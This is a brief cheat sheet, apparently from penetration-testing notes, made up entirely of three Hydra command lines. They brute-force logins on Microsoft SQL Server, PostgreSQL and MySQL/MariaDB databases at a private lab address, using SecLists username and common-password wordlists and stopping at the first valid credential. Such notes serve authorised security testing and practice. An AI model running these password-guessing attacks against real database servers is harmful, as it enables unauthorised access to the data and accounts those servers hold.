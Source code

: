 ## Hydra on Microsoft SQL Server Database
hydra -L /root/Bureau/SecLists/Usernames/top-usernames-shortlist.txt -P /root/Bureau/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt 192.168.56.110 -e sn -f mssql

## Hydra on Postgres SQL Server Database
hydra -L /root/Bureau/SecLists/Usernames/top-usernames-shortlist.txt -P /root/Bureau/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt 192.168.56.110 -e sn -f postgres

## Hydra on MySQL/MariaDB Database
hydra -L /root/Bureau/SecLists/Usernames/top-usernames-shortlist.txt -P /root/Bureau/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt 192.168.56.110 -e sn -f mysql